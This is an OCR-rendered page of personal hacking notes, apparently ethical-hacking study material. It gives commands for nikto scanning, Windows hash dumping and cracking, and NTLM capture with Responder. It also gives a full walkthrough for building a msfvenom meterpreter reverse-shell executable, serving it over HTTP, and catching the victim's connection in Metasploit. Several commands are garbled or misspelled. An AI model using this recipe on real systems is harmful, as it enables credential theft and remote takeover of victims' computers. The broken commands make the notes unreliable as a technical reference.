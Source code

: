 #### vulnerability scanning

nikto -h url -Cgidirs all

#### System hacking

*// 1 - on a windows machine*  
wmic useraccount get name,sid *//list users*  
*// using a tool*  
Pwdump7.exe \>\> /path/file.txt *//get a file to crack*  
*// using ophcrack to crack the hash with rainbow tables*  
ophcrack \>\> tables \>\> vista free  
*// cracking with rainbow tables using winrtgen to create a rainbow
table*  
winrtgen \>\> add table \>\> hashntlm  
rainbowcrack \>\> select the obtained file \>\> select dircreatd
**with** winrtgen  
  
*// 2 - using responder to capture the traffic of the windows system*  
*//run a shared folder on windows*  
*//capture the ntlm hash \>\> cracking with jhon*  
chmod +x responder.py  
./Responder.py -I eth0  
-I = **interface** *//ifconfig*  
*// cracking the ntlm capture with ntlm*  
john capture.txt  
  
lopthcr4ck *// helps to crack ntlm passwords store on windows*  
  
*// system hacking windows*  
*// look for an exploit and try to get remote access to the victim using
msfvnom,metasploit and rat*  
  
msfvenom -p windows/meterpreter/reverse_tcp \--platform windows -a x86
-f exe LHOST=my.ip LPORT=my.port -o /root/Desktop/test.exe  
-p = payload  
\--platform = Os  
-a = architecture  
-f = format **of** the payload  
-o = output dir  
  
*// now with try to share the file with the victim*  
*// we try three forms*  
*// \#1 - option*  
mkdir /**var**/www/html/share  
chmod -R 755 /var/www/html/share  
chown -R www-data:www-data /var/www/html/share  
// copy the text.exe to the new server  
cp /root/Desktop/test.exe /**var**/www/html/share  
// \#2 - option  
python -m SimpleHttpServer 80  
// \#3 - option  
python3 http.server 80  
// start the serverwith apache  
service apache2 start //apache version  
//now we open msfconsole to gain a inverse shell with meterpreter  
use exploit/multi/handler //similar to nc -nlvp .port  
set payload windows/meterpreter/reverse_tcp  
set LHOST my.ip  
set LPORT my.port  
exploit/run *// run the exploit*  
*//share the file with the victim*  
my.ip/share  
*//inside the victim\'s machine*  
run the exe *// text.exe share with the server*  
*//look at the metasploit session*  